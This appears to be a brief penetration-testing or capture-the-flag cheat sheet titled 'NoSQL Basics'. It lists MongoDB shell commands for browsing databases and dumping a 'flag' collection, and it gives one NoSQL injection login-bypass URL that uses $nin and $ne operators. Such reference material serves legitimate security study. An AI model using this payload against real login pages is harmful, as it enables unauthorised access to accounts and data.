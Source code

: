 ```yaml
---
description: MongoDB, Redis, RavenDB, etc.
---
```


# NoSQL Basics

| Command                                                                 | Description                                                       |
| ----------------------------------------------------------------------- | ----------------------------------------------------------------- |
| `show dbs;`                                                             | List all the databases present                                    |
| `use user_creds;`                                                       | Switch to database named "user\_creds"                            |
| `show collections;`                                                     | List out the collections in a database                            |
| `db.flag.find().pretty()`                                               | Dump the contents of the documents present in the flag collection |
| http://url?login\[$nin]\[]=admin\&login\[$nin]\[]=test\&pass\[$ne]=toto | Basic NoSQLi Login                                                |
